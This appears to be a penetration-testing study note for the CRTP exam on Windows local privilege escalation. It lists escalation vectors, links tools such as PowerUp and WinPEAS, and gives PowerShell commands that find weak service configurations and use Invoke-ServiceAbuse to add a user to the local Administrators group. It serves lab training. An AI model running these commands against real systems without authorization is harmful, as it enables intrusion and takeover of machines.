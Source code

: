# Local Privilege Escalation

{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

## Vectors

#### There are various ways of locally escalating privileges on Windows box:

* Missing patches – Automated deployment and AutoLogon passwords in clear text
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misconfigured Services – DLL Hijacking and more
* NTLM Relaying a.k.a. Won't Fix

This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-UnquotedService -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
# Verify if the above command worked or not with
net localgroup administrators  
```
{% endtab %}
{% endtabs %}
